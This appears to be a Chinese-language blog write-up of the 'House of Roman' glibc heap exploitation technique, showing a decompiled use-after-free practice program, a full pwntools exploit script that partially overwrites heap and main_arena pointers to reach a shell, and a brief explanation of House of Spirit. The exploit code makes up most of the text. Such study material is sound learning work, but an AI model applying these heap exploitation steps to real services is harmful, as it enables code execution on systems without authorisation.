

<!-- more -->

### 技术分析

该技术通过12-bit的暴力破解来get shell。同时需要目标程序存在UAF漏洞，同时能够分配出unsorted bin 和 fastbins。

文章提供了一个简单UAF漏洞的程序：

```
 int v5; // [sp+Ch] [bp-4h]@3

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = stderr;
  setvbuf(stderr, 0LL, 2, 0LL);
  start_p(v3, 0LL);
  while ( 1 )
  {
    print_menu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        puts("Malloc");
        v5 = malloc_chunk();
        if ( !v5 )
          puts("Error");
        break;
      case 2:
        puts("Write");
        write_chunk();
        break;
      case 3:
        puts("Free");
        free_chunk();
        break;
      default:
        puts("Invalid choice");
        break;
    }
  }
}

```

开启的保护如下：




### exp 代码

```
#!/usr/bin/python
from pwn import *

p = process("./new_chall",env={"LD_PRELOAD":"./libc-2.24.so"})
#raw_input()

def menu():
	p.recvuntil("3. Free")

def create(size,idx):
	menu()
	p.sendline("1")
	p.recvuntil(":")
	p.sendline(str(size))
	p.recvuntil(":")
	p.sendline(str(idx))

def free(idx):
	menu()
	p.sendline("3")
	p.recvuntil(":")
	p.sendline(str(idx))

def edit(idx,data):
	menu()
	p.sendline("2")
	p.recvuntil(":")
	p.sendline(str(idx))
	sleep(0.1)
	p.send(data)


name = "A"*20
p.recvuntil(":")
p.sendline(name)

create(24,0)
create(200,1)
fake = "A"*104
fake += p64(0x61)
edit(1,fake)

create(101,2)

free(1)
create(200,1)

over = "A"*24
over += "\x71"
edit(0,over)

create(101,3)
create(101,15)
create(101,16)
create(101,17)
create(101,18)
create(101,19)
free(2)
free(3)

heap_po = "\x20"
edit(3,heap_po)

arena_po = "\xcd\x4a"
edit(1,arena_po)
#raw_input()
create(101,0)
create(101,0)
create(101,0)
#p.interactive()

# Control arena through 0.
# Now unsorted bin attack.

# First fix 0x71 freelist.
free(15)
edit(15,p64(0x00))

# Fixed.
# 0x7f702619777b

create(200,1)
create(200,1)
create(24,2)
create(200,3)
create(200,4)

free(1)
po = "B"*8
po += "\xe0\x4a"
edit(1,po)

create(200,1)
#5b394f
over = "R"*19
over += "\x4f\x39\x5b"
edit(0,over)

create(200,7)
try:
	resp = p.recv(4, timeout=6)
	p.interactive()
except:
	p.close()
```

截图是interactive()产生的，不是getshell，这里只是分配到一块堆到main_arena地址上，后面做fastbins的修补工作。和堆风水相关很大，我的实验环境里地址和作者的地址相差很大。


任意地址free实现利用(House of Spirit)

当可以通过某种方式（比如栈溢出）控制free的参数时，就可以使用House of Spirit实现利用。大概的思路是free你要任意分配的地址，然后这个地址就会在再次分配的时候被分配到，但是要任意分配的地址要提起构造好伪chunk结构。

### 参考链接

https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc

https://github.com/romanking98/House-Of-Roman